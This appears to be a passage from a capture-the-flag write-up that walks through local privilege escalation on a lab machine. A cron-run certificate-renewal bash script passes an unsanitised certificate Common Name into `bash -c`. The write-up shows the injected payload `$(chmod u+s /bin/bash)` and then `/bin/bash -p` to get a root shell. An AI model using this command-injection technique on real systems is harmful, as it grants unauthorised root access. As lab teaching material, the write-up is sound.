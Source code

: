 ```
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;

```

In this script, if the certificate expires in less than 86400 seconds (which are equivalent to 1 day) it will return 1, and continues with parsing certificate's values. 

The vulnerable line is the following one:

```
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
```

Here, indeed, we can exploit a command injection attack, since *$commonName* is user-controlled (```commonName=$(echo ${commonName:5} | awk -F, '{print $1}')```) and no input-sanitization is applied.

Then, inside ~/Certs path, generate a new certification, with this command:

```
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -days 1 -keyout /dev/null -out broscience.crt
```

leave blank all the items, except for *Common name*, where you have to put the malicious payload (e.g., ```$(chmod u+s /bin/bash)```); wait that the cronos script runs (so /bin/bash will be set the setuid flag)

Finally, run

```
/bin/bash -p 
```

, where the ```-p``` option is needed in order to not drop privileges ([link](https://0xdf.gitlab.io/2022/05/31/setuid-rabbithole.html)), and get the final flag ;)
